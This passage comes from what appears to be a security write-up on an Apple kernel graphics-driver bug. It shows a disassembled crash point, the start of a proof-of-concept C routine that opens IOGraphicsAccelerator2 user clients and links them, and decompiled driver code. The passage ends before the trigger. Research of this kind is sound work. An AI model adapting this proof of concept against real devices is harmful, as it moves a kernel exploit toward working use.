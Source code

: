 ```nasm
com.apple.iokit.IOAcceleratorFamily:__text:FFFFFFF006CFEA8C                 STR             X0, [X20,#8] <---- CRASH POINT !!!!
com.apple.iokit.IOAcceleratorFamily:__text:FFFFFFF006CFEA90                 B               loc_FFFFFFF006CFEA00
```

Back to the PoC code — let’s review it once more.

## 1. Connecting client to IOGraphicsAccelerator2 service

First, use `IOServiceGetMatchingService` to locate the graphics-acceleration service IOGraphicsAccelerator2. Next, call IOServiceOpen, which is typically used by a user-space process to open a user client for a kernel-registered I/O service driver.

Then call `IOConnectAddClient` to link the handles of each user client opened with that same type, so that one side can use resources or mappings created by the other.

```c
void poc() {
    kern_return_t kr;

    io_service_t IOGraphicsAccelerator2 = IOServiceGetMatchingService(kIOMasterPortDefault, IOServiceMatching("IOGraphicsAccelerator2"));
    assert(IOGraphicsAccelerator2 != IO_OBJECT_NULL);
    io_connect_t IOAccelCommandQueue2 = MACH_PORT_NULL;
    IOServiceOpen(IOGraphicsAccelerator2, mach_task_self(), IOAccelCommandQueue2_type, &IOAccelCommandQueue2);
    assert(IOAccelCommandQueue2 != IO_OBJECT_NULL);
    io_connect_t IOAccelSharedUserClient2 = MACH_PORT_NULL;
    IOServiceOpen(IOGraphicsAccelerator2, mach_task_self(), IOAccelSharedUserClient2_type, &IOAccelSharedUserClient2);
    assert(IOAccelSharedUserClient2 != IO_OBJECT_NULL);

    kr = IOConnectAddClient(IOAccelCommandQueue2, IOAccelSharedUserClient2);
    assert(kr == KERN_SUCCESS);
```

IOServiceOpen requires the user_client type as its 3rd argument. For IOGraphicsAccelerator2 service, we can see what role each type performs by inspecting `IOGraphicsAccelerator2::newUserClient` in kernelcache.

I haven't analyzed `newUserClient` in exhaustive detail, but observed that the userclient type 2 for IOGraphicsAccelerator2 service initializes an `IOAccelContext2` object, whereas type 5 initializes `IOAccelDevice2` object.

```cpp
__int64 __fastcall IOGraphicsAccelerator2::newUserClient(
        struct_a1 *a1,
        task *a2,
        __int64 securityID,
        __int64 type,
        IOUserClient **a5)
{
  __int64 v9; // x19
  proc *bsdtask_info_9; // x0
  __int64 v11; // x27
  int CountWithPID; // w24
  int v13; // w25
  int v14; // w26
  int v15; // w0
  unsigned int v16; // w9
  unsigned int dwordBBC; // w8
  __int64 v18; // x0
  IOUserClient *v19; // x23
  __int64 v20; // x0
  __int64 v21; // x0
```